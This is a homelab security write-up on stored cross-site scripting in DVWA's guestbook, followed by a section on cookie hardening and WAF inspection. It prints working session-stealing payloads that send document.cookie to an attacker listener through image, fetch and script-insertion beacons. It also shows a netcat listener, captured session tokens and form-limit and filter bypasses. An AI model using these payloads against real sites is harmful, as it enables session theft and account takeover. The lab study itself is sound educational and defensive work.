# Day 02: Stored XSS Internals, Out-of-Band Session Hijacking & Cookie Hardening

| Metadata | Description |
| :--- | :--- |
| **Category** | Web Application Security / Application Security (AppSec) |
| **Vulnerability** | Stored Cross-Site Scripting (Persistent XSS / CWE-79 / OWASP Top 10 A03:2021 – Injection) |
| **Target Application** | DVWA (Damn Vulnerable Web Application) – Guestbook Module (Security Level: Low & Medium) |
| **Web Server / DBMS** | Apache 2.4 / PHP 7.x–8.x / MariaDB 10.x / Chromium Engine |
| **Perimeter Defense** | Chaitin SafeLine Community WAF (Semantic Analysis Reverse Proxy) |
| **Methodology** | Hands-On Homelab Research + AI-Augmented Learning (AI Research Partner) |
| **Author** | AppSec Homelab Portfolio — Day 02 XSS Research |

---

## 1. Executive Summary & Lab Architecture

**Stored Cross-Site Scripting (Persistent XSS)** represents a critical escalation in the client-side injection threat model. Unlike Reflected XSS—where malicious input is merely echoed in an immediate, transient HTTP response—Stored XSS occurs when unvalidated input is serialized and committed permanently into an application's persistent datastore (relational database, distributed cache, or filesystem).

This shifts the attack topology from a **one-to-one** (attacker-to-single-victim) delivery mechanism into a lethal **one-to-many** (attacker-to-many-victims) broadcast model:
* The payload is injected once ($T_0$).
* The payload executes asynchronously in the browser context of *every legitimate user* who subsequently requests the affected resource ($T_1 \dots T_n$).
* Execution occurs automatically without requiring victims to click suspicious external links or fall for phishing lures.

This research paper deconstructs Stored XSS through two synchronized operational domains:
1. **Offensive Engineering**: Bypassing client-side form constraints (`maxlength`), evading asymmetric backend sanitization routines in DVWA Guestbook, constructing out-of-band DOM beacon payloads, and intercepting live session tokens on an external listener.
2. **Defensive Engineering**: Architectural session protection via cookie hardening (`HttpOnly`, `Secure`, `SameSite`), evaluating the empirical boundaries between DOM execution and credential theft, and inspecting inbound/outbound telemetry on Chaitin SafeLine WAF.

### Lab Topology & Attack Flow



### 💡 Methodology Note: Hands-On Verification & AI-Augmented Research

* **100% Hands-On Homelab Execution**: All phases of this research—including setting up Netcat listeners on Kali Linux, DevTools DOM manipulation to bypass HTML form limits, injecting payloads into DVWA Low and Medium security tiers, intercepting exfiltrated session cookies, and analyzing SafeLine WAF telemetry—were performed live in the researcher's local homelab (`100.x.x.x`).
* **AI as an Interactive Research & Technical Writing Partner**: AI was leveraged to analyze the separation of concerns between JavaScript runtimes and browser network stacks, model the mathematical lifecycle of stored data serialization, and synthesize the writeup according to enterprise Application Security (AppSec) standards.
* **Empirical Integrity**: Every code snippet, terminal log, network interaction, and DOM modification is supported by direct homelab screenshot artifacts.

---

## 2. Persistent Payload Flow & Attack Chaining (Session Hijacking)

### The Two-Stage Exploitation Lifecycle

Stored XSS differs fundamentally from reflected attacks due to its temporal and spatial separation:

$$\text{Lifecycle} = \underbrace{\text{Phase I: Ingestion } (T_0)}_{\text{Attacker } \to \text{ Database}} + \underbrace{\text{Phase II: Execution } (T_1 \dots T_n)}_{\text{Database } \to \text{ Arbitrary Victims}}$$

1. **Ingestion Phase ($T_0$)**:
   The attacker submits an input vector (e.g., guestbook comment, profile bio, forum post). Even if the backend utilizes parameterized SQL queries (preventing SQL Injection), it stores the raw string unaltered in the database table.
2. **Execution Phase ($T_1 \dots T_n$)**:
   Whenever a user browses the page, the application queries the database and renders the stored text directly into the HTML Document tree. The browser tokenizer transitions into an executive state, constructing live executable DOM elements without distinguishing between developer markup and user data.



---

### Anatomy of Attack Chaining: Out-of-Band Exfiltration

Once script execution is achieved in a victim's browser, an attacker chains the vulnerability into **Session Hijacking**. In stateful web applications, authentication state is maintained via session tokens stored in browser cookies (`PHPSESSID`, `JSESSIONID`, or Bearer tokens).

By default, the JavaScript execution context can read active cookies via `document.cookie`. The attacker crafts a payload to transmit this secret across network boundaries via **Out-of-Band (OOB) Exfiltration**:

#### Vector 1: DOM Beacon Injection via Image Object (Recommended)

```javascript
new Image().src = "http://100.x.x.x:4444/?c=" + encodeURIComponent(document.cookie);
```

* **Mechanism**: Instantiates an in-memory `HTMLImageElement` without appending it to the visible DOM tree. Assigning a URI to `.src` forces the browser network stack to issue an immediate asynchronous HTTP GET request.
* **CORS Immunity**: Image resource requests (``) are treated as passive cross-origin requests under browser security models. They are **not restricted by Cross-Origin Resource Sharing (CORS)** policies, allowing silent exfiltration across arbitrary domains.

#### Vector 2: Fetch / XMLHttpRequest API

```javascript
fetch("http://100.x.x.x:4444/log", {
    method: "POST",
    mode: "no-cors",
    body: document.cookie
});
```

* **Mechanism**: Sends a POST request using the Fetch API with `mode: 'no-cors'`. While response bodies cannot be read across origins without CORS headers, the outgoing request containing the cookie body reaches the listener unimpeded.

#### Vector 3: DOM Dynamic Script Insertion (JSONP-style Leak)

```javascript
let s = document.createElement('script');
s.src = "http://100.x.x.x:4444/capture.js?c=" + escape(document.cookie);
document.body.appendChild(s);
```

* **Mechanism**: Appends an external `<script>` tag. Like images, `<script src="...">` loads are exempt from standard same-origin blocking, transmitting the session string as a query parameter.

---

## 3. Hands-On Homelab Walkthrough: DVWA Stored XSS

### Lab Preparation: Establishing the Attacker Listener

Prior to triggering client-side exfiltration, we configure an active TCP network listener on our Kali Linux workstation:

```bash
nc -lvnp 4444
```

<p align="center">
  
  <br>
  <em><strong>Figure 3.1:</strong> Initializing Netcat TCP socket listener on port 4444 awaiting inbound telemetry.</em>
</p>

* *Alternative*: A structured HTTP listener can be launched via `python3 -m http.server 4444`, which logs client IP, timestamp, User-Agent, and HTTP request headers.

---

### Phase 1: DVWA Security Level: Low

#### 1. Form Analysis & Client-Side Control Bypass

Navigating to the **XSS (Stored)** module in DVWA Low reveals a Guestbook form with two input fields:
* `txtName`: Name field (`<input type="text">`)
* `mtxMessage`: Message field (`<textarea>`)

Inspecting `mtxMessage` in browser DevTools Elements (`F12`) exposes a client-side restriction:

```html
<textarea name="mtxMessage" cols="50" rows="3" maxlength="1000"></textarea>
```

<p align="center">
  
  <br>
  <em><strong>Figure 3.2:</strong> DevTools Elements view inspecting the <code>maxlength</code> constraint on the <code>mtxMessage</code> textarea.</em>
</p>

> [!NOTE]
> **Client-Side Controls vs. Server-Side Validation**: HTML attributes like `maxlength` are solely user interface constraints enforced by the local browser. They provide zero security against an attacker who can alter the DOM or submit requests via proxy tools.

In this experiment, the payload is injected into the **`mtxMessage`** field. We ensure the buffer size is sufficient by editing the attribute to `maxlength="1000"`.

#### 2. Crafting and Submitting the Stored Payload

We enter `supanto` into the `Name` field, and supply our DOM beacon exfiltration script into the `Message` textarea:

```html
<script>new Image().src="http://100.x.x.x:4444/?c="+encodeURIComponent(document.cookie);</script>
```

<p align="center">
  
  <br>
  <em><strong>Figure 3.3:</strong> Form submission with benign name (<code>supanto</code>) and malicious DOM beacon script in the <code>mtxMessage</code> field.</em>
</p>

#### 3. Ingestion & WAF Telemetry

Upon clicking **Sign Guestbook**, the browser submits an HTTP `POST /vulnerabilities/xss_s/`.

Inspecting SafeLine WAF telemetry in **Audit Mode** captures the raw incoming parameters committed to the backend datastore:

<p align="center">
  
  <br>
  <em><strong>Figure 3.4:</strong> SafeLine WAF log capturing the stored XSS POST request payload containing <code>&lt;script&gt;new Image()...</code> targeting the database.</em>
</p>

#### 4. Asynchronous Execution & Cookie Capture

The backend writes the payload into the MariaDB `guestbook` table. When the page reloads (or whenever any user accesses `/vulnerabilities/xss_s/`), the backend executes `SELECT` and returns the message inside the guestbook container.

The browser executes the stored `<script>` tag, triggers the `new Image().src` call, and dispatches an HTTP request to our Kali listener:

<p align="center">
  
  <br>
  <em><strong>Figure 3.5:</strong> Netcat listener capturing the active session token (<code>PHPSESSID=pbm41agrbof6u5kvugoi7696r2; security=low</code>).</em>
</p>

```http
connect to [100.x.x.x] from (UNKNOWN) [100.x.x.x] 34280
GET /?c=PHPSESSID%3Dpbm41agrbof6u5kvugoi7696r2%3B%20security%3Dlow HTTP/1.1
Host: 100.x.x.x:4444
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 ...
Referer: http://100.x.x.x/
```

**Attack Impact**: The attacker now possesses a valid administrative/user session identifier. By pasting this cookie value into their own browser session storage, the attacker immediately assumes the victim's identity without requiring credentials.

---

### Phase 2: DVWA Security Level: Medium

#### 1. Backend Source Code Audit

We switch DVWA to **Medium** security and examine the backend handler (`vulnerabilities/xss_s/source/medium.php`):

```php
<?php
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Sanitization of 'mtxMessage'
    $message = trim( $_POST[ 'mtxMessage' ] );
    $message = stripslashes( $message );
    $message = htmlspecialchars( $message );

    // Flawed sanitization of 'txtName'
    $name = trim( $_POST[ 'txtName' ] );
    $name = str_replace( '<script>', '', $name );
    $name = stripslashes( $name );

    // Persistent storage into database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );
}
?>
```

#### Vulnerability Deconstruction:
1. **Asymmetric Field Sanitization**:
   * The `mtxMessage` field is thoroughly hardened using `htmlspecialchars()`. Any `<script>`, ``, quotes, or tags submitted here will be converted into benign HTML entities (`&lt;`, `&gt;`, `&quot;`). **`mtxMessage` is completely immune to injection.**
   * The `txtName` field, however, relies on naive `str_replace('<script>', '', $name)`.
2. **Deterministic Filter Flaws in `txtName`**:
   * **Case-Sensitivity**: `str_replace()` only strips literal lowercase `<script>`, ignoring `<SCRIPT>` or mixed case.
   * **Tag Monopoly Fallacy**: The developer assumed XSS requires `<script>` tags, completely ignoring HTML5 inline event handlers.
3. **Frontend False Sense of Security**:
   * The frontend form imposes `maxlength="10"` on `txtName`, leading developers to believe an attacker cannot fit a payload into 10 characters.

---

#### 2. Exploiting `txtName` via DOM Manipulation & Inline Event Handlers

To exploit the vulnerable `txtName` parameter, we perform two steps:

##### Step 1: Client-Side Form Constraint Override
We open DevTools (`F12`), locate `<input name="txtName" maxlength="10">`, and alter the property to `maxlength="500"`:

<p align="center">
  
  <br>
  <em><strong>Figure 3.6:</strong> DevTools Elements view expanding <code>txtName</code> constraint to <code>maxlength="500"</code>.</em>
</p>

##### Step 2: Payload Injection via `onerror` Event Handler
We craft a payload utilizing an `` element that triggers execution upon resource failure, bypassing `str_replace('<script>', ...)` entirely:

* **Name field**:
  ```html
  
  ```
* **Message field**: `supanto` (benign text)

<p align="center">
  
  <br>
  <em><strong>Figure 3.7:</strong> Injecting the inline <code>onerror</code> event listener payload into the modified <code>txtName</code> field.</em>
</p>

#### 3. Execution & Exfiltration Verification

Upon clicking **Sign Guestbook**:
1. The backend inserts the payload into the `name` column of `guestbook`.
2. Whenever the page renders, the browser encounters ``.
3. The browser attempts to load the non-existent image `x`, fails, and fires the `onerror` event handler.
4. `this.src` is dynamically updated to the listener URI concatenated with `document.cookie`.
5. The Netcat listener receives the exfiltrated session cookie:

<p align="center">
  
  <br>
  <em><strong>Figure 3.8:</strong> Netcat listener capturing the Medium security session cookie (<code>PHPSESSID=pbm41agrbof6u5kvugoi7696r2; security=medium</code>).</em>
</p>

```http
connect to [100.x.x.x] from (UNKNOWN) [100.x.x.x] 57050
GET /?leak=PHPSESSID=pbm41agrbof6u5kvugoi7696r2;%20security=medium HTTP/1.1
Host: 100.x.x.x:4444
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 ...
Referer: http://100.x.x.x/
```

---

## 4. Defensive Security: Session Cookie Hardening & Defense-in-Depth

The fundamental rule of modern application security architecture is **Defense-in-Depth** and **Separation of Concerns**. Input validation and output encoding are the primary barriers against XSS, but if an injection flaw slips through, **Session Cookie Hardening** acts as an impassable last line of defense against credential theft.

```http
Set-Cookie: PHPSESSID=s9d8f7a6b5c4d3e2f1; Path=/; Secure; HttpOnly; SameSite=Strict
```

```
                 ┌──────────────────────────────────────────────────┐
                 │                   Browser Engine                 │
                 │                                                  │
                 │    ┌───────────────────┐    ┌────────────────┐   │
                 │    │ JavaScript Engine │    │  Network Stack │   │
                 │    │     (V8, etc.)    │    │ (HTTP/HTTPS)   │   │
                 │    └─────────┬─────────┘    └────────┬───────┘   │
                 └──────────────┼───────────────────────┼───────────┘
                                │                       │
                     document.cookie                    │ Automatically sent
                     reads ONLY                         │ on HTTP/S requests
                     non-HttpOnly cookies               │
                                │                       │
                                ▼                       ▼
                        ┌───────────────────────────────────────┐
                        │          Cookie Protection            │
                        │   - HttpOnly  ──► Blocks JS Engine    │
                        │   - Secure    ──► TLS / HTTPS Only    │
                        │   - SameSite  ──► Context Origin Rule │
                        └───────────────────────────────────────┘
```

### 1. The `HttpOnly` Directive

* **Technical Mechanism**: Instructs the browser engine to decouple the cookie storage container from the JavaScript DOM binding (`document.cookie`).
* **Security Impact**: The browser network stack continues to transmit the cookie automatically during HTTP/HTTPS transactions with the origin server. However, if malicious JavaScript attempts to query `document.cookie`, the engine returns an empty string or omits the protected token.

#### Backend Implementation (PHP):

```ini
; Recommended php.ini global configuration
session.cookie_httponly = 1
session.cookie_secure = 1
session.cookie_samesite = "Strict"
```

```php
// Runtime configuration prior to session initiation
session_set_cookie_params([
    'lifetime' => 0,
    'path'     => '/',
    'domain'   => '',
    'secure'   => true,      // Enforce HTTPS
    'httponly' => true,      // Block JavaScript access
    'samesite' => 'Strict'   // Isolate cross-site context
]);
session_start();
```

---

### 2. The `Secure` Directive

* **Technical Mechanism**: Tells the browser that the cookie must only be transmitted over encrypted TLS (HTTPS) channels.
* **Security Impact**: Neutralizes network-layer eavesdropping and **SSL Stripping / MitM attacks**, where an on-path attacker attempts to downgrade a connection to plain HTTP to sniff authentication headers in cleartext.

---

### 3. The `SameSite` Directive

Controls whether cookies are included in requests initiated by third-party origins:

| SameSite Mode | Top-Level Navigation (`<a href>`) | Cross-Site Subresources (``, `<iframe>`, AJAX POST) | Primary Protection |
| :--- | :--- | :--- | :--- |
| **`None`** | Transmitted (Requires `Secure`) | Transmitted | None; necessary only for third-party widget embeds. |
| **`Lax`** *(Default)* | Transmitted (Safe GET navigation only) | **Blocked** (No cross-site form POSTs) | Protects against standard Cross-Site Request Forgery (CSRF). |
| **`Strict`** | **Blocked** | **Blocked** | Maximum session isolation; immune to external cross-origin links until user navigates within the origin. |

---

### 4. Empirical Evaluation: DOM Execution vs. Credential Access

A prevalent misconception in application security is the assumption that *enabling `HttpOnly` eliminates XSS*. This is fundamentally false.

> [!WARNING]
> **What `HttpOnly` Protects vs. What Remains Vulnerable**:
> * `HttpOnly` protects **one specific asset**: the raw session token from being read by `document.cookie`.
> * `HttpOnly` **does NOT stop XSS execution**. The injected JavaScript still executes inside the victim's DOM execution context with full user privileges!

```
[ Injected XSS Payload Executes in DOM ]
      ├──► alert(1)                 : SUCCESS (DOM Mutated)
      ├──► Page Defacement          : SUCCESS (Visuals / Links Replaced)
      ├──► Phishing Modal Injection : SUCCESS (Prompts for password re-entry)
      ├──► In-Context Actions (CSRF): SUCCESS (Performs actions as user via fetch)
      └──► document.cookie Exfiltr. : FAILED  (Returns empty string / null)
```

#### Forensic Demonstration:
If an attacker attempts session exfiltration on an `HttpOnly`-hardened application:

```html
<script>
    new Image().src = "http://100.x.x.x:4444/?token=" + document.cookie;
</script>
```

The listener receives:

```http
GET /?token= HTTP/1.1
Host: 100.x.x.x:4444
User-Agent: Mozilla/5.0 ...
```

The `token=` parameter is **completely blank**. The account hijacking attempt is thwarted, demonstrating how defense-in-depth protects user identities even when frontend code fails.

---

## 5. SafeLine WAF Telemetry & Multi-Stage Inspection Analysis

Chaitin SafeLine WAF acts as an inline Layer 7 reverse proxy. In a Stored XSS lifecycle, SafeLine provides two critical defensive inspection points:



1. **Inbound Storage Inspection**:
   * When an attacker submits ``, SafeLine's lexical tokenizer parses the string into grammar tokens.
   * Detecting the attribute `onerror` triggers an internal scope transition to the **ECMAScript Sub-Parser**.
   * SafeLine constructs an AST representation of the script inside the attribute, identifying an active property reassignment targeting network endpoints.
   * In **Balance Mode**, SafeLine terminates the connection with **HTTP 403 Forbidden**, preventing the payload from ever reaching MariaDB.
2. **Outbound Telemetry & Anomaly Analysis**:
   * If a stored payload bypassed earlier defenses or was committed prior to WAF activation, SafeLine inspects outbound response bodies and subsequent outbound network patterns.
   * Requests containing raw IP addresses in HTML attributes are flagged as high-fidelity **Indicators of Compromise (IoC)** representing potential data exfiltration attempts.

---

## 6. Conclusion & Day 02 Key Takeaways

The Day 02 research demonstrates that Stored XSS is a severe persistent vulnerability requiring rigorous defense across all application tiers:

1. **Model Shift**: Stored XSS transforms attacks into asynchronous, broadcast-style exploits affecting multiple users without social engineering.
2. **Sanitization Symmetry**: Asymmetric sanitization (hardening one parameter like `mtxMessage` while leaving `txtName` vulnerable) leaves the application completely exposed.
3. **Client Constraints are Untrusted**: Never rely on frontend HTML attributes (`maxlength`, `pattern`) as security boundaries.
4. **Defense-in-Depth Imperative**: Pairing robust output sanitization (`htmlspecialchars(..., ENT_QUOTES | ENT_HTML5, 'UTF-8')`) with hardened session cookies (`HttpOnly`, `Secure`, `SameSite=Strict`) and an intelligent semantic WAF creates an enterprise-grade defense posture.

